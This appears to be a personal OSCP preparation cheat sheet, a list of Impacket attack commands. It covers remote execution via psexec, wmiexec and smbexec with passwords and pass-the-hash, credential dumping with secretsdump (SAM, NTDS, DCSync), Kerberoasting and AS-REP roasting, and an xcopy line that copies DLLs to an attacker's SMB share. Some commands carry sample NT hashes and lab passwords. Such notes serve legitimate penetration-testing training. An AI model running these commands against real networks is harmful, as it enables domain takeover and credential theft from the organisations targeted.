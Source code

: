 ### 21-Oct-23 Sat

```
impacket-psexec domain/username:'password'@IP
```

```
impacket-psexec username@ip -hashes LM:NT
```

```
impacket-wmiexec domain/username:'password'@IP
```

```
impacket-wmiexec -hashes
00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b
Administrator@192.168.50.212
```

```
impacket-smbexec domain/username:'password'@IP
```

```
impacket-secretsdump -sam sam -security security -system system LOCAL
```

```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

```
impacket-secretsdump sync.csl/manager:'!!MILKSHAKE!!'@172.31.3.6
```

```
impacket-GetUserSPNs -request -dc-ip $DomainIP $DomainName/$DomainUser
```

```
impacket-GetNPUsers -request -dc-ip $DomainIP $DomainName/$DomainUser
```

```
impacket-psexec -hashes
00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b
Administrator@192.168.50.212
```

```
proxychains -q impacket-psexec -hashes
00000000000000000000000000000000:f0397ec5af49971f6efbdb07877046b3 beccy@172.16.6.240
```

```
 impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -dc-host dc1.scrm.local -k -no-pass -request
```

```
impacket-GetNPUsers sync.csl/manager -format john
```

```
sudo impacket-smbserver -smb2support share $(pwd)
```

![image](https://github.com/r1skkam/OffSec-PEN-200-OSCP-Preparation/assets/58542375/c49f33ee-54e0-4aaa-800f-f66de51e0b5a)

```
xcopy *.dll \\attackerIP\share\
```
